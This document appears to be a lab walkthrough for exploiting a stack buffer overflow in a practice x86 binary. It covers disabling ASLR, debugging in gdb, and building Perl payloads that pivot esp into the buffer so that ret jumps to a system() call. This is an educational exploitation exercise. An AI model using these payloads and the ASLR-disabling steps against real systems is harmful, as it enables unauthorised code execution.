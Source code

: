 # Walkthrough for Part 1 (x86)

## Preparing the environment
Note the status of ASLR.
If it's not 0, disable it:

```bash
cat /proc/sys/kernel/randomize_va_space
echo 0 > /proc/sys/kernel/randomize_va_space
```

The program calls `system("./solve")` so I've created a simple program to test if the exploit works.
Compile it with `gcc solve.c -o solve`.
Ensure that the environment variables don't interfere with the stack.
GDB also sets some environment variables at startup, so we want to get rid of those as well.
You can ignore the source line if you don't have a .gdbinit:

```bash
env -i gdb /path/to/part0x01_x86
source ~/.gdbinit
unset env LINES
unset env COLUMNS
```

## Lookint at the binary
The `system(3)` call sequence begins at `0x80485e0 <main+138>`
This is our target.

Set a breakpoint after the `scanf(3)` call to follow what happens after the input.
Another breakpoint before the stack frame is cleaned up so that we can watch the buffer overflow:

```gdb
break *main + 94
break *main + 172
```

## Test run with "test" as input
We find the string is read into `buffer` at `0xffffddcc`.
Also, `0x0b` (vertical tab) is placed at the start of the input string.
This means the `strcmp(3)` will never succeed.

## Track down the buffer overflow
We can use `r < [input file]` to give gdb a file to use as stdin.
The breakpoint after `scanf(3)` is no longer useful.

```break
delete 1
```

### First payload (executed in the system shell):
```bash
perl -e 'print "A"x32' > payload_gdb.dat
```

### Second payload:
```bash
perl -e 'print "A"x16 . "B"x16' > payload_gdb.dat
```

### Third payload:
```bash
perl -e 'print "A"x16' > payload_gdb.dat
```

This one doesn't segfault, let's work from here.

## Something *very* interesting to note about the program
At the end of `main()`, `ecx` gets loaded with value at `[ebp - 0x04] = [0xffffdde8 - 0x04] = [0xffffdde4] = 0xffffde00`.
After that, `leave` is called to clean up stack frame.
But after the stack frame is cleaned up, `esp` gets loaded with `ecx - 0x04 = 0xffffddfc`.

o_O

## Exploit time!
We obviously need to control `eip`.
This means we need to be able to have our payload value at the top of the stack right before `ret`.
Remembering the part above, we want to set `esp` to an address in `buffer`.
That way `ret` will pop a value that we can control as the return address.
We can calculate that `ecx` is loaded from an address `buffer + 0x18` (24 bytes further past the start).

```bash
perl -e 'print "A"x24 . "BBBB"' > payload_gdb.dat
```

Now we can set `esp` to be loaded with the address of `buffer + 1` to avoid the vertical tab.
Taking into account the `- 0x04`, `BBBB` needs to become `buffer + 0x01 + 0x04 = 0xffffddcc + 0x05 = 0xffffddd1`

```bash
perl -e 'print "A" . "CCCC" . "D"x 19 . "\xd1\xdd\xff\xff"' > payload_gdb.dat
```

Now we can test setting the return address we want:

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "D"x 19 . "\xd1\xdd\xff\xff"' > payload_gdb.dat
```

We notice when we try to `ret` into the target that `ebp` is set to `0x00` at the call to `leave`.
This is no good.
We can maintain the old `ebp` to have a valid stack frame at the `ret` by adding the value at the end of our payload.

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "D"x 19 . "\xd1\xdd\xff\xff" . "\xe8\xdd\xff\xff"' > payload_gdb.dat
```

## Testing outside of gdb
When we run outside of gdb, we see that the exploit is unusccessful.
Even though we clear the environment variables, we still see `SIGSEGV`.
`test.c` can be used to figure out the offset of the stack inside gdb vs outside gdb.
Compile it with `gcc test.c -m32 -o test0x01_x86`.
We need the name to be the same length so that the arguments on the stack are the same size.

Inside gdb, `ebp` is at `0xffffddd8`.
Outside of gdb, `ebp` is at `0xffffde18` which is `0x40` higher in memory.
All of the old stack addresses need to be incremented accordingly.
The return address itself doesn't, since it's in the code, not the stack.
This means:

 * `ebp` becomes `0xffffdde8 + 0x40 = 0xffffde28`
 * the string is read into `buffer` at `0xffffddcc + 0x40 = 0xffffde0c`
 * `ecx` gets loaded with value at `[ebp - 0x04] = [0xffffde28 - 0x04] = [0xffffde24]`
 * `esp` gets loaded with `ecx - 0x04` like before
   * needs to become `buffer + 0x01 + 0x04 = 0xffffde0c + 0x05 = 0xffffde11`

We can now try a new payload:

```bash
perl -e 'print "A" . "\xe0\x85\x04\x08" . "C"x 19 . "\x11\xde\xff\xff" . "\x28\xde\xff\xff"' > payload.dat
```

If disabled, re-enable ASLR when done (enter the value `cat`ed earlier)

```bash
echo 2 > /proc/sys/kernel/randomize_va_space
```
